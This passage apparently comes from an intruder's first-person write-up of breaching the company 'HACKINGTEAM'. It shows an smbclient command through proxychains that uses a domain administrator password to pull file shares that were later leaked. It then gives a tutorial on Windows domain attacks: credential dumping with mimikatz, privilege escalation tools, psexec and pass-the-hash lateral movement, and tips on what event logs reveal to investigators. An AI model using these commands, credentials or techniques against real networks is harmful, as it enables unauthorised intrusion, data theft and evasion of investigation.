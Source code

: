-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

with New-MailboxExportRequest to download the new mails (in this case
all the mails from June 5th onward). The problem was that it said that
the date is invalid if the day is greater than 12 (imagine that this
is because the month is usually put first in the EU, and the month
can't be greater than 12). It seems that the engineers at Microsoft
had only tested their software on their own regional configuration.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/

--[ 12 - Downloading archives ]----------------------

Now that I was the domain's admin, I started downloading the shared
resources using my proxy and smbclient's -Tc option. For example:

proxychains smbclient '//192.168.1.230/FAE DiskStation' \
-U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

This is where the Amministrazione, FAE DiskStation, and FileServer
folders in the torrent came from.

--[ 13 - Introduction to hacking a Windows domain ]-----

I'd like to take a break from the story of these fuckers [weones
culiaos], to share a bit of knowledge about attacking Windows
networks.

--[ 13.1 - Lateral movement ]---------------------------
I'm going to give a quick review of the techniques used for spreading
out inside a Windows network. The techniques for remote execution
require a local administrator's password or hash to work. Often, the
most common way of obtaining these credentials is to use mimikatz [1],
and above all sekurlsa::logonpasswords and sekurlsa::msv, from the
machines you already have administrative access to. The techniques for
moving around "in situ" also require administrative privileges (except
for runas). The most important tools for
privilege escalation are PowerUp [2], and bypassuac [3].

[1] https://adsecurity.org/?page_id=1821
[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[3] https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1

Remote navigation:

1) psexec

The tried and tested way of navigating Windows networks. You can
use psexec [1], winexe [2], metasploit's psexec_psh [3], powershell
empire's invoke_psexec [4], or the Windows command "sc" [5]. For
the metasploit module, powershell empire, and pth-winexe [6], it's
enough to know the hash without knowing the password. This is the
most universal way (it works on any computer with port 445 open),
but it is also the least cautious. Events of type 7045 "Service
Control Manager" will appear in the registry. In my experience,
this has never tipped anyone off during a hack, but it's something
they might notice afterwards, and it might help the investigators
figure out what the hacker was doing.
